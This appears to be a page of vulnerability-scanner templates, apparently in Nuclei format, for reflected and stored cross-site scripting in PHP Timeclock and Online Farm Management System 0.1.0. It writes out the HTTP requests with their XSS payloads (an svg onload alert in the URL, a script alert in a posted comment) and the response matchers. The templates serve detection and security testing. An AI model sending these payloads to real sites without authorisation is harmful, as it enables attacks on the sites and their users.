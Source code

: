 ### URL
- {{BaseURL}}/login.php/'%3E%3Csvg/onload=alert%60{{randstr}}%60%3E
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. \<svg/onload=alert`{{randstr}}`>
    2. PHP Timeclock Admin Login
- part - body
- condition - and

**Type - word**
- words
    1. text/html
- part - header

---
# Online Farm Management System 0.1.0 - Cross-Site Scripting
## Description
- Online Farm Management System 0.1.0 contains a cross-site scripting vulnerability via the review.php file.

- severity - high
- tags - onlinefarm,cms,xss,edb
## Requests
### Step - 1
```
POST /reviewInput.php?pid=1 HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

comment=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E&rating=0

```
### Matchers

**Type - word**
- part - body
- words
    1. \<em style="color: black;">\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html
